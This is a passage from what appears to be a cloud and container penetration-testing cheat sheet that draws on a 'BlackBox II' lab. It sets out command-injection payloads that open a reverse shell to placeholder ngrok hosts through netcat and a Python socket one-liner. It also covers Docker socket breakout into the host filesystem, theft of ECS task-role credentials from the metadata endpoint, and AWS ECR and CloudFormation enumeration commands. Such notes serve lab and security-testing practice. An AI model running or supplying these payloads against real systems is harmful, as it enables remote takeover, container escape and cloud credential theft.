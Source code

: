 * **Command Injection to Reverse Shell (from "BlackBox II"):**
    If a web application running in a container is vulnerable to command injection (`example.com; <command>`), attempt to get a reverse shell.
    ```bash
    # Setup ngrok and netcat listener
    # Payload: example.com; nc <ngrok_ip> <ngrok_port> -e /bin/sh
    # Or using python: example.com; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ngrok_ip>",<ngrok_port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
    ```
* **Docker Breakout (from "BlackBox II"):**
    If you get a shell in a container and the Docker socket is mounted (`/host/run/docker.sock`):
    1.  List host Docker images: `docker -H unix:///host/run/docker.sock images`.
    2.  Run a privileged container mounting the host's root:
        `docker -H unix:///host/run/docker.sock run -it --privileged -v /:/host <image_id_or_name> chroot /host sh`.
* **Accessing ECS Task Role Credentials from Host/Another Container:**
    After Docker escape or if on the host, list running containers: `docker -H unix:///run/docker.sock ps`.
    Exec into a target container: `docker -H unix:///run/docker.sock exec -it <container_id> /bin/bash`.
    Inside the container, retrieve credentials using the ECS metadata endpoint and `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI` environment variable:
    ```bash
    curl [http://169.254.170.2](http://169.254.170.2)$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
    ```
* **ECR (Elastic Container Registry):**
    * List repositories and images, check for vulnerabilities if tools are available.
        ```bash
        aws ecr describe-repositories --profile <profile_name> --region <region>
        aws ecr list-images --repository-name <repo_name> --profile <profile_name> --region <region>
        ```

### CloudFormation

* **Review Stack Templates & Outputs:**
    ```bash
    aws cloudformation get-template --stack-name <stack_name> --profile <profile_name> --region <region>
    aws cloudformation describe-stack-resources --stack-name <stack_name> --profile <profile_name> --region <region>
    aws cloudformation describe-stacks --stack-name <stack_name> --profile <profile_name> --region <region> --query "Stacks[0].Outputs"
    # Look for hardcoded secrets, insecure resource configurations, or sensitive info in outputs.
    ```

